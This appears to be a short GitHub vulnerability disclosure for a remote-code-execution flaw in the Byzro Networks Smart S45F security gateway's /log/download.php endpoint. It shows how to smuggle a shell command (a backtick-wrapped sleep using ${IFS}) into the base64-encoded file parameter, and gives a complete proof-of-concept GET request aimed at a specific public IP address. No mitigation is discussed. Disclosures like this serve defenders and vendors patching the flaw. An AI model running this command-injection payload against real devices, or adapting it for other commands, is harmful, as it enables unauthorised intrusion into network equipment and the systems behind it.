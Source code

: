 Byzro Networks Smart S45F multi-service security gateway intelligent management platform has rce vulnerability

version:S45F

Vulnerability points：/log/download.php

![图片2](https://github.com/7332all/cve/assets/130833400/73b4c372-8f8d-4f31-ae46-e6282783ae4a)


1.Construct the file parameter 1.`sleep${IFS}5`.pcap, then use base64 encryption, construct it on the file parameter, and successfully execute the system command

POC
```
GET /log/download.php?local=1&file=MS5gc2xlZXAke0lGU301YC5wY2Fw&filetype=SMTP HTTP/1.1
Host: 103.121.164.62:8443
Cookie: PHPSESSID=c42fe5569c87343d59c5808ffc63ad31
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Te: trailers
Connection: close
```
![图片1](https://github.com/7332all/cve/assets/130833400/ec2d1548-cc41-4edc-a0a3-7eb8b0972e16)
